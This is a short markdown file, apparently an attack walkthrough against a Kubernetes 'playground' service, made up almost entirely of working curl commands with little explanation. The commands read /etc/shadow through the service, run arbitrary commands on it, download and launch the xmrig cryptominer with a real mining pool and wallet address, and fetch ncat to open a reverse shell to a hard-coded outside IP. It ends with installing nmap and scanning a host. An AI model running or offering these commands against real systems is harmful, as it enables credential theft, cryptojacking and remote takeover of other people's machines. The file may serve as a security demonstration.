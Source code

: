 # Find out url:port
LOAD_BALANCER_URL=$(kubectl get svc playground -n default -o json | jq -r .status.loadBalancer.ingress[].ip)
PORT=80

# Read the file /etc/shadow
```
curl $LOAD_BALANCER_URL:$PORT/etc/shadow
```

# Get a list of files
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ls -la'
```

# Get my user (we are root)
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=uname -a'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=whoami'
```

# Istall cryptominer
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget -O file.tar.gz https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=tar -xvf file.tar.gz'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=sleep 1 && nohup ./xmrig-6.16.4/xmrig --donate-level 100 -o xmr-us-east1.nanopool.org:14433 -k -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero'
```

# Check that cryptominer is installed
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=ps -aux'
```

# Open reverse shell
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=chmod +x ncat'
sleep 1 && nohup curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=./ncat 34.77.63.85 34444 -e /bin/bash' &> /dev/null & nc -lnvp 34444
```

# Install nmap and scan hosts
```
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=apt-get update; apt-get -y install nmap'
curl -X POST $LOAD_BALANCER_URL:$PORT/exec -d 'command=nmap -v scanme.nmap.org'
```





